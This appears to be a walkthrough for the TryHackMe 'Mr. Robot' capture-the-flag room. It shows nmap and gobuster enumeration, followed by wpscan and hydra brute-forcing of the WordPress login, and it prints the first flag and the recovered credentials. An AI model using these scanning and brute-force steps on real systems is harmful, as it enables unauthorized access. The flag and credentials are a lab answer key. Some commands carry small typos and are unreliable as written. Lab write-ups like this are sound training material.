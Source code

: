 ```yaml
---
description: https://tryhackme.com/room/mrrobot
---
```


# Mr. Robot

## INIT

```
export mrrobot=10.10.177.95
ping $mrrobot

echo "10.10.177.95 mrrobot.thm" >> /etc/hosts
```

## NMAP

```
nmap -v -sC -sV -O -T5 -p1-65535 mrrobot.thm
```

![](<../.gitbook/assets/image (448).png>)

## GOBUSTER

```
gobuster dir -u mrrobot.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](<../.gitbook/assets/image (457).png>)

## HTTP

![](<../.gitbook/assets/image (447).png>)

* [http://mrrobot.thm/prepare](http://mrrobot.thm/prepare)
* [http://mrrobot.thm/fsociety](http://mrrobot.thm/fsociety)
* [http://mrrobot.thm/inform](http://mrrobot.thm/inform)
* [http://mrrobot.thm/question](http://mrrobot.thm/question)
* [http://mrrobot.thm/wakeup](http://mrrobot.thm/wakeup)
* [http://mrrobot.thm/join](http://mrrobot.thm/join)

![](<../.gitbook/assets/image (458).png>)

Wordpress

![](<../.gitbook/assets/image (450).png>)

![](<../.gitbook/assets/image (453).png>)

### What is key 1?

```
curl http://mrrobot.thm/key-1-of-3.txt
```

![](<../.gitbook/assets/image (454).png>)

{% hint style="success" %}
073403c8a58a1f80d943455fb30724b9
{% endhint %}

### What is key 2?

```
curl http://mrrobot.thm/fsocity.dic --output fsocity.dic
```

![](<../.gitbook/assets/image (455).png>)

```
wpscan --url http://mrrobot.thm --paswords fsocity.dic --usernames 'elliot'
```

![](<../.gitbook/assets/image (456).png>)

![](<../.gitbook/assets/image (459).png>)

```
hydra -L fsocity.dic  -p test mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=Invalid username"
```

{% hint style="success" %}
Username: Elliot

Password: ER28-0652
{% endhint %}
